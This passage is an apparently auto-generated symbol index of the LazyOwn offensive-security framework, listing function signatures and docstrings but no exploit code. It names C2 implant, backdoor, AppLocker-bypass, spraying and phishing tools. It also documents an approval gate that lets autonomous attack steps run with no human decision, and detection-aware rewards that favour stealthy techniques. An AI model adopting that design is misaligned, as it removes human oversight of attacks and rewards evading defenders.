ActionCategory + a small string\n      set; extend via a subclass that overrides ``_is_gated``.\n  D — depends on the IApprovalSink interface, not on file or HTTP code.", "kind": "class", "line": 1606, "name": "ApprovalGate", "signature": "class ApprovalGate"}, {"doc": "Thin wrapper around time.sleep for ApprovalGate injection in tests.", "kind": "function", "line": 1721, "name": "_default_sleep", "signature": "def _default_sleep(seconds)"}, {"doc": "Load ``cli/scope_guard.py`` directly from its file path (cached).\n\nThe scope guard is pure standard library, but importing it through the\n``cli`` package triggers ``cli/__init__.py`` which pulls the full cmd2\ncommand stack. Loading the module file in isolation keeps this gate\ndependency-light and side-effect free. The loaded module is registered\nin ``sys.modules`` before execution so ``@dataclass`` under\n``from __future__ import annotations`` can resolve its own type\nnamespace, and the result is cached across calls.\n\nReturns:\n    The loaded ``scope_guard`` module.\n\nRaises:\n    ImportError: When the module spec or loader cannot be built.\n    OSError: When the module file cannot be read.", "kind": "function", "line": 1739, "name": "_load_scope_guard", "signature": "def _load_scope_guard()"}, {"doc": "Return whether *target* is inside *entries*, failing closed on error.\n\nBacked by ``cli.scope_guard.target_in_scope`` loaded in isolation. When\nthe scope guard cannot be loaded the predicate returns ``False`` so an\nunverifiable scope check denies an out-of-scope step under ``enforce``\nrather than attacking an unauthorized host.\n\nArgs:\n    target: The active target (IP address or hostname).\n    entries: Normalized authorized scope entries.\n\nReturns:\n    ``True`` when the target is authorized by at least one entry.", "kind": "function", "line": 1779, "name": "_default_in_scope", "signature": "def _default_in_scope(target, entries)"}, {"doc": "Normalize raw payload scope entries into a clean tuple.\n\nDelegates to ``cli.scope_guard.normalize_scope`` and falls back to a\nconservative string strip when the guard cannot be loaded.\n\nArgs:\n    entries: Raw ``payload.json[scope]`` value (typically a list).\n\nReturns:\n    A tuple of non-empty, stripped scope entries.", "kind": "function", "line": 1800, "name": "_normalize_scope", "signature": "def _normalize_scope(entries)"}, {"doc": "Headless approval gate backing the fully autonomous engage mode.\n\nDrop-in replacement for :class:`ApprovalGate` that never blocks on a\nhuman decision. Every request resolves immediately from the authorized\nscope declared in ``payload.json``:\n\n- scope empty OR ``scope_enforcement`` is ``off`` : APPROVED. The scope\n  guard is dormant, so unattended autonomy runs unconstrained.\n- target inside scope                             : APPROVED.\n- target outside scope, enforcement ``warn``      : APPROVED, with a\n  rationale flagging the out-of-scope target for the narrator/audit log.\n- target outside scope, enforcement ``enforce``   : DENIED. This is the\n  single fail-closed boundary unattended autonomy must keep — the\n  engagement's legal authorization limit.\n\nThe payload is read at request time (never cached) so an operator can\ntighten scope with ``scope enforce`` mid-run and have the next step\nhonour it.\n\nSOLID:\n  S — owns only the scope-versus-target decision; no I/O beyond reading\n      the payload it is configured with.\n  L — honours the same ``request`` signature and ``ApprovalOutcome``\n      return type as :class:`ApprovalGate`, so ``EngageOrchestrator``\n      consumes either interchangeably.\n  D — the scope predicate is injected via ``in_scope_fn`` so the gate is\n      unit-testable without loading ``cli.scope_guard``.", "kind": "class", "line": 1820, "name": "ScopeBoundAutoGate", "signature": "class ScopeBoundAutoGate"}, {"doc": "One-shot importer that reads LazyOwn_session_report.csv and populates\nthe episode store and transition table from historical session data.", "kind": "class", "line": 1922, "name": "HistoryBootstrapper", "signature": "class HistoryBootstrapper"}, {"kind": "function", "line": 1960, "name": "_setup_logging", "signature": "def _setup_logging(cfg)"}, {"doc": "CLI handler: index session history into the episode and transition stores.", "kind": "function", "line": 1970, "name": "_cmd_bootstrap", "signature": "def _cmd_bootstrap(cfg, _args)"}, {"doc": "CLI handler: classify one command execution and print the result.", "kind": "function", "line": 1977, "name": "_cmd_analyze", "signature": "def _cmd_analyze(cfg, args)"}, {"doc": "CLI handler: print next-action recommendations for a target.", "kind": "function", "line": 1991, "name": "_cmd_recommend", "signature": "def _cmd_recommend(cfg, args)"}, {"doc": "CLI handler: print a summary table of all episodes.", "kind": "function", "line": 2012, "name": "_cmd_report", "signature": "def _cmd_report(cfg, _args)"}, {"doc": "Parse CLI arguments and dispatch to the appropriate command handler.", "kind": "function", "line": 2036, "name": "main", "signature": "def main()"}, {"doc": "Construct configuration anchored to this file's repository root.", "kind": "method", "line": 82, "name": "default", "signature": "def default(cls)"}, {"doc": "Full URL for the Ollama generate endpoint.", "kind": "method", "line": 123, "name": "ollama_url", "signature": "def ollama_url(self)"}, {"doc": "Produce a result indicating the tier could not classify.", "kind": "method", "line": 317, "name": "unknown", "signature": "def unknown(cls, tier)"}, {"doc": "Serialise to a plain dict suitable for JSON encoding.", "kind": "method", "line": 357, "name": "to_dict", "signature": "def to_dict(self)"}, {"doc": "Deserialise from a dict produced by to_dict.", "kind": "method", "line": 362, "name": "from_dict", "signature": "def from_dict(cls, d)"}, {"doc": "Classify the outcome of one command execution.", "kind": "method", "line": 376, "name": "classify", "signature": "def classify(self, command, args, output, exit_code)"}, {"doc": "Return a low-confidence result based solely on the exit code.", "kind": "method", "line": 401, "name": "classify", "signature": "def classify(self, command, args, output, exit_code)"}, {"doc": "Scan output for known success or failure signatures.", "kind": "method", "line": 444, "name": "classify", "signature": "def classify(self, command, args, output, exit_code)"}, {"kind": "method", "line": 496, "name": "__init__", "signature": "def __init__(self, cfg, model, tier_name)"}, {"doc": "Construct the classification prompt for the model.", "kind": "method", "line": 503, "name": "_build_prompt", "signature": "def _build_prompt(self, command, args, output, exit_code)"}, {"doc": "POST a generate request to Ollama and return the parsed response dict.", "kind": "method", "line": 525, "name": "_call_ollama", "signature": "def _call_ollama(self, prompt)"}, {"doc": "Extract a ClassificationResult from the raw Ollama response.", "kind": "method", "line": 540, "name": "_parse_response", "signature": "def _parse_response(self, data, fallback)"}, {"doc": "Send the command context to Ollama and parse the JSON reply.", "kind": "method", "line": 570, "name": "classify", "signature": "def classify(self, command, args, output, exit_code)"}, {"kind": "method", "line": 591, "name": "__init__", "signature": "def __init__(self, cfg)"}, {"kind": "method", "line": 601, "name": "__init__", "signature": "def __init__(self, cfg)"}, {"doc": "Prompt the operator and return their authoritative verdict.", "kind": "method", "line": 616, "name": "classify", "signature": "def classify(self, command, args, output, exit_code)"}, {"kind": "method", "line": 666, "name": "__init__", "signature": "def __init__(self, cfg, interactive)"}, {"doc": "Return the first sufficiently confident result, or the best available.", "kind": "method", "line": 677, "name": "classify", "signature": "def classify(self, command, args, output, exit_code)"}, {"kind": "method", "line": 715, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 718, "name": "_get_oracle", "signature": "def _get_oracle(self)"}, {"doc": "Return detection probability in [0.0, 1.0].\nReturns 0.0 when the oracle is unavailable (fail-open for rewards).", "kind": "method", "line": 733, "name": "assess_probability", "signature": "def assess_probability(self, command, args, category)"}, {"doc": "Return True when detection probability meets or exceeds the threshold.", "kind": "method", "line": 746, "name": "is_high_risk", "signature": "def is_high_risk(self, command, args, category)"}, {"kind": "method", "line": 773, "name": "__init__", "signature": "def __init__(self, cfg, risk_assessor)"}, {"doc": "Return the reward integer for the given (category, outcome) pair.\nDetection risk is NOT applied here — use calculate_with_detection()\nwhen command context is available.", "kind": "method", "line": 783, "name": "calculate", "signature": "def calculate(self, category, outcome)"}, {"doc": "Return (reward, detection_probability) for the given execution.\n\nWhen detection_probability >= 0.70 and outcome is SUCCESS, the reward\nis forced to zero to discourage noisy techniques.  This implements the\ndetection-aware reward shaping described in the architecture.\n\nParameters\n----------\ncategory:   ActionCategory of the command\noutcome:    OutcomeType of the execution\ncommand:    The command name (for detection oracle lookup)\nargs:       Command arguments (for detection oracle lookup)\n\nReturns\n-------\n(reward: int, detection_prob: float)", "kind": "method", "line": 798, "name": "calculate_with_detection", "signature": "def calculate_with_detection(self, category, outcome, command, args)"}, {"kind": "method", "line": 850, "name": "__init__", "signature": "def __init__(self, cfg)"}, {"doc": "Parse the CSV and return all classifiable rows as StepRecord instances.", "kind": "method", "line": 855, "name": "read", "signature": "def read(self)"}, {"doc": "Add a step to the episode for its target, creating the episode if needed.", "kind": "method", "line": 903, "name": "append_step", "signature": "def append_step(self, step)"}, {"doc": "Load every stored episode.", "kind": "method", "line": 907, "name": "load_all", "signature": "def load_all(self)"}, {"doc": "Return the episode for the given target, or None.", "kind": "method", "line": 911, "name": "get_episode", "signature": "def get_episode(self, target)"}, {"kind": "method", "line": 923, "name": "__init__", "signature": "def __init__(self, cfg)"}, {"doc": "Upsert the step into its target's episode and persist.", "kind": "method", "line": 927, "name": "append_step", "signature": "def append_step(self, step)"}, {"doc": "Deserialise all episodes from the .jsonl file.", "kind": "method", "line": 947, "name": "load_all", "signature": "def load_all(self)"}, {"doc": "Return the episode for target, or None if not found.", "kind": "method", "line": 963, "name": "get_episode", "signature": "def get_episode(self, target)"}, {"kind": "method", "line": 970, "name": "_write_all", "signature": "def _write_all(self, episodes)"}, {"kind": "method", "line": 987, "name": "__init__", "signature": "def __init__(self, cfg)"}, {"doc": "Increment the counter for the given transition and persist.", "kind": "method", "line": 993, "name": "record", "signature": "def record(self, from_state, to_category, outcome)"}, {"doc": "Return (next_category, success_rate, total_count) tuples for the given\nfrom_state, filtered by min_transition_count and sorted by success rate\ndescending.\n\nAlways reloads from disk so that external edits (policy_transitions.json)\nand concurrent writes from pipeline._transitions take effect immediately.", "kind": "method", "line": 1003, "name": "query", "signature": "def query(self, from_state)"}, {"kind": "method", "line": 1024, "name": "_load", "signature": "def _load(self)"}, {"kind": "method", "line": 1032, "name": "_save", "signature": "def _save(self)"}, {"kind": "method", "line": 1107, "name": "__init__", "signature": "def __init__(self, cfg, transitions)"}, {"doc": "Return up to top_k dicts with keys: category, reason, confidence, source.", "kind": "method", "line": 1111, "name": "recommend", "signature": "def recommend(self, recent_steps)"}, {"doc": "Return (category, reason, priority) for every triggered override rule.", "kind": "method", "line": 1162, "name": "_apply_overrides", "signature": "def _apply_overrides(self, recent_states)"}, {"doc": "Fall back to the standard kill-chain order when no data is available.", "kind": "method", "line": 1171, "name": "_default_fallback", "signature": "def _default_fallback(self, current_state)"}, {"kind": "method", "line": 1202, "name": "__init__", "signature": "def __init__(self, cfg, interactive)"}, {"doc": "Classify, reward, store, and return a StepRecord for the given execution.", "kind": "method", "line": 1210, "name": "process", "signature": "def process(self, target, command, args, output, exit_code, timestamp)"}, {"kind": "method", "line": 1267, "name": "__init__", "signature": "def __init__(self, cfg)"}, {"doc": "Return the policy engine's recommendations for the given target.", "kind": "method", "line": 1272, "name": "advise", "signature": "def advise(self, target)"}, {"doc": "Return a high-level summary dict for the target's episode.", "kind": "method", "line": 1277, "name": "episode_summary", "signature": "def episode_summary(self, target)"}, {"kind": "method", "line": 1302, "name": "__init__", "signature": "def __init__(self, cfg)"}, {"doc": "Classify a completed command and record it in the episode store.", "kind": "method", "line": 1307, "name": "on_command_complete", "signature": "def on_command_complete(self, target, command, args, output, exit_code)"}, {"doc": "Return ranked next-action recommendations for the target.", "kind": "method", "line": 1318, "name": "get_recommendations", "signature": "def get_recommendations(self, target)"}, {"doc": "True when the gate authorised execution.", "kind": "method", "line": 1365, "name": "is_approved", "signature": "def is_approved(self)"}, {"doc": "True when the gate denied execution.", "kind": "method", "line": 1370, "name": "is_denied", "signature": "def is_denied(self)"}, {"doc": "Publish the request so operators can see and resolve it.", "kind": "method", "line": 1384, "name": "announce", "signature": "def announce(self, request)"}, {"doc": "Return the latest resolution for the request or None if pending.", "kind": "method", "line": 1388, "name": "resolution_for", "signature": "def resolution_for(self, approval_id)"}, {"kind": "method", "line": 1400, "name": "__init__", "signature": "def __init__(self, sessions_dir)"}, {"doc": "Absolute path of the underlying JSONL file.", "kind": "method", "line": 1405, "name": "path", "signature": "def path(self)"}, {"kind": "method", "line": 1409, "name": "announce", "signature": "def announce(self, request)"}, {"kind": "method", "line": 1426, "name": "resolution_for", "signature": "def resolution_for(self, approval_id)"}, {"kind": "method", "line": 1463, "name": "__init__", "signature": "def __init__(self, narrator, file_sink)"}, {"kind": "method", "line": 1471, "name": "announce", "signature": "def announce(self, request)"}, {"kind": "method", "line": 1499, "name": "resolution_for", "signature": "def resolution_for(self, approval_id)"}, {"kind": "method", "line": 1513, "name": "__init__", "signature": "def __init__(self, stream)"}, {"kind": "method", "line": 1517, "name": "_is_interactive", "signature": "def _is_interactive(self)"}, {"kind": "method", "line": 1523, "name": "announce", "signature": "def announce(self, request)"}, {"kind": "method", "line": 1552, "name": "resolution_for", "signature": "def resolution_for(self, approval_id)"}, {"kind": "method", "line": 1564, "name": "__init__", "signature": "def __init__(self, sinks)"}, {"kind": "method", "line": 1569, "name": "announce", "signature": "def announce(self, request)"}, {"kind": "method", "line": 1576, "name": "resolution_for", "signature": "def resolution_for(self, approval_id)"}, {"kind": "method", "line": 1634, "name": "__init__", "signature": "def __init__(self, sink, payload_path, poll_interval_s, poll_timeout_s, sleep_fn)"}, {"kind": "method", "line": 1654, "name": "_auto_approve_enabled", "signature": "def _auto_approve_enabled(self)"}, {"kind": "method", "line": 1664, "name": "_is_gated", "signature": "def _is_gated(self, phase)"}, {"doc": "Return an ApprovalOutcome for the proposed execution.\n\nSteps:\n  1. If auto_approve is on, immediately return APPROVED.\n  2. If the phase is not in the gated set, return APPROVED.\n  3. Otherwise build an ApprovalRequest, announce it, and poll the\n     sink until a decision or the timeout.", "kind": "method", "line": 1667, "name": "request", "signature": "def request(self, target, phase, command, reason)"}, {"kind": "method", "line": 1850, "name": "__init__", "signature": "def __init__(self, payload_path, in_scope_fn)"}, {"doc": "Return the parsed payload, or an empty dict on any read error.", "kind": "method", "line": 1859, "name": "_read_payload", "signature": "def _read_payload(self)"}, {"doc": "Return an ApprovalOutcome without ever prompting a human.\n\nArgs:\n    target: Target the step will run against.\n    phase: Engagement phase tag (recon, enum, exploit, ...).\n    command: LazyOwn command line about to execute.\n    reason: Optional caller rationale, retained for interface parity\n        with :class:`ApprovalGate`.\n\nReturns:\n    APPROVED for every in-scope step and for every step when the\n    scope guard is dormant; DENIED only for an out-of-scope target\n    under ``enforce``.", "kind": "method", "line": 1866, "name": "request", "signature": "def request(self, target, phase, command, reason)"}, {"kind": "method", "line": 1928, "name": "__init__", "signature": "def __init__(self, cfg)"}, {"doc": "Process all CSV rows and return the total number of steps indexed.", "kind": "method", "line": 1934, "name": "run", "signature": "def run(self)"}]}, {"doc": "LazyOwn Append-Only Session Transcripts (Claude Code style)  All writes are append-only JSONL. Lines are never modified. Compact boundaries mark where old content was summarized.  Usage: transcript = get_transcript()          # global singleton transcript.append(\"tool_use\", {...}) transcript.append(\"tool_result\", {...}) fork = transcript.fork()               # new session, no inherited permissions", "id": "skills/lazyown_session.py", "kind": "module", "label": "lazyown_session.py", "language": "py", "sha256": "d83fc6b847fd390f", "symbol_count": 14, "symbols": [{"doc": "Return ``value`` with known-sensitive keys redacted in a deep copy.\n\nWalks dicts/lists/tuples recursively. Any value held under a key whose\nlowercased name appears in ``_SENSITIVE_KEYS`` is replaced with\n``[REDACTED]``. Scalars passed at the top level are returned unchanged\nbecause there is no key context to evaluate; callers that supply raw\nsecrets should wrap them under a named field instead.", "kind": "function", "line": 47, "name": "_redact_sensitive", "signature": "def _redact_sensitive(value)"}, {"doc": "Append-only JSONL session transcript.\n\nEach line is a JSON object:\n    {\"ts\": \"...\", \"type\": \"...\", \"uuid\": \"...\", \"data\": {...}}\n\nTypes: user_prompt | tool_use | tool_result | compact_boundary |\n       permission_decision | hook_event | system", "kind": "class", "line": 71, "name": "SessionTranscript", "signature": "class SessionTranscript"}, {"doc": "Return the active transcript singleton.\nOn first call, sessions_dir must be provided to initialize it.", "kind": "function", "line": 281, "name": "get_transcript", "signature": "def get_transcript(sessions_dir, session_id)"}, {"doc": "Force a new transcript (e.g., after fork or session reset).", "kind": "function", "line": 294, "name": "reset_transcript", "signature": "def reset_transcript(sessions_dir, session_id)"}, {"kind": "method", "line": 82, "name": "__init__", "signature": "def __init__(self, sessions_dir, session_id)"}, {"kind": "method", "line": 90, "name": "_init_meta", "signature": "def _init_meta(self)"}, {"doc": "Append a single event. Returns the event UUID.\n\nSensitive fields (passwords, tokens, hashes) are redacted before the\nevent is written to disk. The transcript file is created with\nowner-only permissions (0600) atomically via ``os.open`` so secrets\nnever sit on disk in a world-readable state, even for the very\nfirst write.", "kind": "method", "line": 106, "name": "append", "signature": "def append(self, event_type, data)"}, {"doc": "Return the last n events.", "kind": "method", "line": 143, "name": "get_recent", "signature": "def get_recent(self, n)"}, {"kind": "method", "line": 161, "name": "get_all", "signature": "def get_all(self)"}, {"kind": "method", "line": 164, "name": "count", "signature": "def count(self)"}, {"doc": "If event count since the last compact_boundary exceeds threshold,\ngenerate a template summary of those events and write a new boundary.\nReturns the new boundary's UUID or None if no compaction was needed.\nAppend-only: original events stay on disk.", "kind": "method", "line": 174, "name": "maybe_auto_compact", "signature": "def maybe_auto_compact(self, threshold)"}, {"doc": "Mark a compaction point. The summary replaces older events logically\nbut they remain on disk (append-only guarantee).", "kind": "method", "line": 209, "name": "add_compact_boundary", "signature": "def add_compact_boundary(self, summary, preserved_uuids)"}, {"doc": "Create a new transcript forked from this one.\nPermissions are NOT inherited (security decision matching Claude Code).\nRecent history IS copied for context continuity.", "kind": "method", "line": 227, "name": "fork", "signature": "def fork(self, new_id)"}, {"kind": "method", "line": 257, "name": "status_text", "signature": "def status_text(self)"}]}, {"doc": "Auto-generated MCP tool handlers from command_index.json.  DO NOT EDIT BY HAND.  Re-generate with: python3 skills/mcp_tool_generator.py  This file is imported by lazyown_mcp.py to close the coverage gap between the 148 hand-written handlers and the 670+ CLI commands.", "id": "skills/mcp_generated_tools.py", "kind": "module", "label": "mcp_generated_tools.py", "language": "py", "sha256": "8445a0888d2f084e", "symbol_count": 645, "symbols": [{"doc": "Return list[types.Tool] entries for all generated tools.", "kind": "function", "line": 659, "name": "get_generated_tool_definitions", "signature": "def get_generated_tool_definitions()"}, {"doc": "Register every generated handler via *register_handler_fn*.\n\nCalled by lazyown_mcp.py after its infrastructure is ready. Returns the count registered.", "kind": "function", "line": 684, "name": "register_all_generated_handlers", "signature": "def register_all_generated_handlers(register_handler_fn, make_text_fn, run_lazyown_cmd_fn)"}, {"kind": "function", "line": 696, "name": "_gen_EOF", "signature": "def _gen_EOF(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 704, "name": "_gen_GET", "signature": "def _gen_GET(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 712, "name": "_gen_OPTIONS", "signature": "def _gen_OPTIONS(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 720, "name": "_gen_POST", "signature": "def _gen_POST(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 728, "name": "_gen_acknowledgearp", "signature": "def _gen_acknowledgearp(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 736, "name": "_gen_acknowledgeicmp", "signature": "def _gen_acknowledgeicmp(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 744, "name": "_gen_aclpwn_py", "signature": "def _gen_aclpwn_py(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 752, "name": "_gen_ad_ldap_enum", "signature": "def _gen_ad_ldap_enum(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 760, "name": "_gen_adcs_check", "signature": "def _gen_adcs_check(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 768, "name": "_gen_add2find", "signature": "def _gen_add2find(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 776, "name": "_gen_addalias", "signature": "def _gen_addalias(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 784, "name": "_gen_addcli", "signature": "def _gen_addcli(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 792, "name": "_gen_addhosts", "signature": "def _gen_addhosts(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 800, "name": "_gen_addspn_py", "signature": "def _gen_addspn_py(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 808, "name": "_gen_addusers", "signature": "def _gen_addusers(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 816, "name": "_gen_adgetpass", "signature": "def _gen_adgetpass(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 824, "name": "_gen_adsso_spray", "signature": "def _gen_adsso_spray(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 832, "name": "_gen_adversary", "signature": "def _gen_adversary(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 840, "name": "_gen_adversary_yaml", "signature": "def _gen_adversary_yaml(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 848, "name": "_gen_aes_pe", "signature": "def _gen_aes_pe(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 856, "name": "_gen_ai_playbook", "signature": "def _gen_ai_playbook(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 864, "name": "_gen_ai_toggle", "signature": "def _gen_ai_toggle(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 872, "name": "_gen_aliass", "signature": "def _gen_aliass(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 880, "name": "_gen_allin", "signature": "def _gen_allin(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 888, "name": "_gen_alterx", "signature": "def _gen_alterx(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 896, "name": "_gen_amass", "signature": "def _gen_amass(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 904, "name": "_gen_android_apk", "signature": "def _gen_android_apk(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 912, "name": "_gen_android_enum", "signature": "def _gen_android_enum(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 920, "name": "_gen_apache_users", "signature": "def _gen_apache_users(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 928, "name": "_gen_applocker_csc", "signature": "def _gen_applocker_csc(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 936, "name": "_gen_applocker_installutil", "signature": "def _gen_applocker_installutil(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 944, "name": "_gen_applocker_msbuild", "signature": "def _gen_applocker_msbuild(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 952, "name": "_gen_applocker_mshta", "signature": "def _gen_applocker_mshta(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 960, "name": "_gen_applocker_presentation", "signature": "def _gen_applocker_presentation(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 968, "name": "_gen_applocker_regsvcs", "signature": "def _gen_applocker_regsvcs(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 976, "name": "_gen_applocker_rundll32", "signature": "def _gen_applocker_rundll32(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 984, "name": "_gen_apropos", "signature": "def _gen_apropos(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 992, "name": "_gen_apt_playbook", "signature": "def _gen_apt_playbook(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1000, "name": "_gen_apt_proxy", "signature": "def _gen_apt_proxy(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1008, "name": "_gen_apt_repo", "signature": "def _gen_apt_repo(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1016, "name": "_gen_arjun", "signature": "def _gen_arjun(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1024, "name": "_gen_arpscan", "signature": "def _gen_arpscan(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1032, "name": "_gen_ask", "signature": "def _gen_ask(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1040, "name": "_gen_asprevbase64", "signature": "def _gen_asprevbase64(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1048, "name": "_gen_assign", "signature": "def _gen_assign(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1056, "name": "_gen_atomic_agent", "signature": "def _gen_atomic_agent(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1064, "name": "_gen_atomic_gen", "signature": "def _gen_atomic_gen(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1072, "name": "_gen_atomic_lazyown", "signature": "def _gen_atomic_lazyown(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1080, "name": "_gen_atomic_tests", "signature": "def _gen_atomic_tests(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1088, "name": "_gen_attack_plan", "signature": "def _gen_attack_plan(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1096, "name": "_gen_attack_surface", "signature": "def _gen_attack_surface(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1104, "name": "_gen_audit_complete_keys", "signature": "def _gen_audit_complete_keys(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1112, "name": "_gen_autoblody", "signature": "def _gen_autoblody(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1120, "name": "_gen_automsf", "signature": "def _gen_automsf(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1128, "name": "_gen_autopivot", "signature": "def _gen_autopivot(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1136, "name": "_gen_back", "signature": "def _gen_back(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1144, "name": "_gen_backdoor_factory", "signature": "def _gen_backdoor_factory(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1152, "name": "_gen_banner", "signature": "def _gen_banner(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1160, "name": "_gen_banners", "signature": "def _gen_banners(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1168, "name": "_gen_base64decode", "signature": "def _gen_base64decode(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1176, "name": "_gen_base64encode", "signature": "def _gen_base64encode(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1184, "name": "_gen_batchnmap", "signature": "def _gen_batchnmap(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1192, "name": "_gen_bbot", "signature": "def _gen_bbot(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1200, "name": "_gen_beaconcfg", "signature": "def _gen_beaconcfg(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1208, "name": "_gen_bin2shellcode", "signature": "def _gen_bin2shellcode(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1216, "name": "_gen_binarycheck", "signature": "def _gen_binarycheck(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1224, "name": "_gen_bitm", "signature": "def _gen_bitm(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1232, "name": "_gen_blazy", "signature": "def _gen_blazy(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1240, "name": "_gen_bloodhound", "signature": "def _gen_bloodhound(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1248, "name": "_gen_bloodyAD", "signature": "def _gen_bloodyAD(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1256, "name": "_gen_breacher", "signature": "def _gen_breacher(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1264, "name": "_gen_browse", "signature": "def _gen_browse(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1272, "name": "_gen_c2", "signature": "def _gen_c2(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1280, "name": "_gen_c2_beacon_cmd", "signature": "def _gen_c2_beacon_cmd(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1288, "name": "_gen_c2_beacons", "signature": "def _gen_c2_beacons(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1296, "name": "_gen_c2_implant", "signature": "def _gen_c2_implant(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1304, "name": "_gen_c2_keygen", "signature": "def _gen_c2_keygen(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1312, "name": "_gen_c2_quickstart", "signature": "def _gen_c2_quickstart(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1320, "name": "_gen_c2asm", "signature": "def _gen_c2asm(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1328, "name": "_gen_cacti_exploit", "signature": "def _gen_cacti_exploit(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1336, "name": "_gen_caldera", "signature": "def _gen_caldera(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1344, "name": "_gen_caldera_export", "signature": "def _gen_caldera_export(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1352, "name": "_gen_caldera_import", "signature": "def _gen_caldera_import(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1360, "name": "_gen_camphish", "signature": "def _gen_camphish(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1368, "name": "_gen_certipy", "signature": "def _gen_certipy(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1376, "name": "_gen_certipy_ad", "signature": "def _gen_certipy_ad(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1384, "name": "_gen_cewl", "signature": "def _gen_cewl(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1392, "name": "_gen_chain", "signature": "def _gen_chain(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1400, "name": "_gen_changeme", "signature": "def _gen_changeme(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1408, "name": "_gen_check_update", "signature": "def _gen_check_update(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1416, "name": "_gen_chisel", "signature": "def _gen_chisel(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1424, "name": "_gen_cicd_scan", "signature": "def _gen_cicd_scan(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1432, "name": "_gen_cicd_secrets", "signature": "def _gen_cicd_secrets(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1440, "name": "_gen_clean", "signature": "def _gen_clean(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1448, "name": "_gen_clean_ad", "signature": "def _gen_clean_ad(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1456, "name": "_gen_clock", "signature": "def _gen_clock(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 1464, "name": "_gen_clone_site", "signature": "def _gen_clone_site(arguments, 